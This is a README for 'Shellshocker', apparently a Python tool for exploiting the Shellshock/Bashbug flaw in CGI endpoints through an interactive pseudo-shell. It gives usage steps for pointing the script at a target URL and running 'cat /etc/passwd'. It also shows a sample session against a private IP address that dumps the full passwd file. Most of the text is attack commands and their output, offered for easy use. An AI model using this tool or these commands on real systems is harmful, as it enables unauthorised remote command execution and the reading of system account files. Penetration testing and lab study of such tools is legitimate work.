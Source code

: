 # Shellshocker
Shellshock easily exploitation

When you find Shellshock / Bashbug vulnerability and want the easyest way to use it, you can use "Shellshocker".
Avoid tinkering with the user-agent and feels like a shell directly.

Using:
  1. Run the script with python
    "python shellshocker.py http://exam.com/cgi-bin/cat"

  2. Hit command and press enter:
    "cat /etc/passwd"

  3. Read the output :)

Example:
python shellshoker.py http://10.0.0.12:591/cgi-bin/cat
Shellshock Command: cat /etc/passwd

root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucp:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
gopher:x:13:30:gopher:/var/gopher:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
vcsa:x:69:69:virtual console memory owner:/dev:/sbin/nologin
saslauth:x:499:76:"Saslauthd user":/var/empty/saslauth:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
bynarr:x:500:501::/home/bynarr:/bin/bash
apache:x:48:48:Apache:/var/www:/sbin/nologin
apophis:x:501:502::/home/apophis:/bin/bash
